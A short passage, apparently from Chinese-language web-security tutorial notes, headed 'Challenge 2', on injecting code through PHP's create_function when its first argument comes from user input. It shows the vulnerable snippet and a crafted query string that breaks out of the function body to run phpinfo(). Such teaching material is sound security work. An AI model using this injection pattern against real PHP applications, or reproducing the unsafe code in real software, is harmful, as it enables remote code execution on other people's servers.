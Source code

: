 ![](../images/21-6-1_create_function_2.png)

### Challenge 2

若第一个参数可控

```php
<?php
create_function($_GET['arg'],'');
```

可构造

```
/?arg=){}phpinfo();{}%23
```

结果为：

![](../images/21-6-1_create_function_2.png)
